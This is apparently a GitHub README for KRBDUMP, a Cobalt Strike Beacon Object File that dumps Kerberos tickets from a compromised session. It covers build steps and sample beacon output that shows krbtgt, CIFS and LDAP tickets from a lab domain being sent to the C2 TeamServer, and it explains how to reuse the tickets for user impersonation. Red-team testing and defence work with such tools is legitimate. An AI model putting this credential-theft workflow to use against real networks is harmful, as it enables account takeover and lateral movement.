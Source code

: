 # About

KRBDUMP is a tool that is designed to dump the the current kerberos tickets to the Cobalt Strike downloads so that they can be passed to the other toolsets, or imported into other beacons / session to perform user impersonation.

It is designed to work purely with Cobalt Strike through its 'Beacon Object File' format so that you can more easily play with Kerberos tooling without the need for external toolsets. This has been tested in a few different labs to ensure it works properly.

## Build

To build the 'Beacon Object File'  you will need mingw-w64 from musl.cc. Once you've installed the compilers within your PATH for x86_64 and i686, run `make`, which will build the BOF file to be used with Cobalt Strike.

Once you've build the corresponding KRBDUMP BOF for their respective architectures, simply import the [KrbDump.cna](KrbDump.cna) script into your Aggressor script console. You're ready to start using it!


## Usage

Its relatively simple! Simple execute `krbdump` from a Cobalt Strike Beacon, and your tickets ( listable via klist or KrbList ) will be downloaded in memory to the TeamServer.

```
beacon> krbdump
[*] Tasked Beacon to dump kerberos tickets for the current logon session.
[+] host called home, sent: 3992 bytes
[*] started download of beacon-655660392-0-40e10000-edr-wsk-s1$@krbtgt:EDRLAB.LOCAL-EDRLAB.LOCAL.kirbi (1605 bytes)
[*] download of beacon-655660392-0-40e10000-edr-wsk-s1$@krbtgt:EDRLAB.LOCAL-EDRLAB.LOCAL.kirbi is complete
[*] started download of beacon-655660392-1-40a50000-edr-wsk-s1$@cifs:dc.edrlab.local-EDRLAB.LOCAL.kirbi€ (1544 bytes)
[*] download of beacon-655660392-1-40a50000-edr-wsk-s1$@cifs:dc.edrlab.local-EDRLAB.LOCAL.kirbi€ is complete
[*] started download of beacon-655660392-2-40a50000-edr-wsk-s1$@cifs:DC.EDRLAB.local:EDRLAB.local-EDRLAB.LOCAL.kirbi (1572 bytes)
[*] download of beacon-655660392-2-40a50000-edr-wsk-s1$@cifs:DC.EDRLAB.local:EDRLAB.local-EDRLAB.LOCAL.kirbi is complete
[*] started download of beacon-655660392-3-40a10000-edr-wsk-s1$@EDR-WSK-S1$-EDRLAB.LOCAL.kirbi (1524 bytes)
[*] download of beacon-655660392-3-40a10000-edr-wsk-s1$@EDR-WSK-S1$-EDRLAB.LOCAL.kirbi is complete
[*] started download of beacon-655660392-4-40a50000-edr-wsk-s1$@LDAP:DC.EDRLAB.local:EDRLAB.local-EDRLAB.LOCAL.kirbi (1572 bytes)
[*] download of beacon-655660392-4-40a50000-edr-wsk-s1$@LDAP:DC.EDRLAB.local:EDRLAB.local-EDRLAB.LOCAL.kirbi is complete
[*] started download of beacon-655660392-5-40a50000-edr-wsk-s1$@ldap:DC.EDRLAB.local-EDRLAB.LOCAL.kirbi€0ËZþ (1544 bytes)
[*] download of beacon-655660392-5-40a50000-edr-wsk-s1$@ldap:DC.EDRLAB.local-EDRLAB.LOCAL.kirbi€0ËZþ is complete
```

![](https://i.imgur.com/JIZ5f8T.png)

The exported tickets are in KIRBI format, so that can be imported directly into other beacon with `kerberos_ticket_use`, or passed to other impacket tools with ticketconverter to move them to a the CCACHE format.
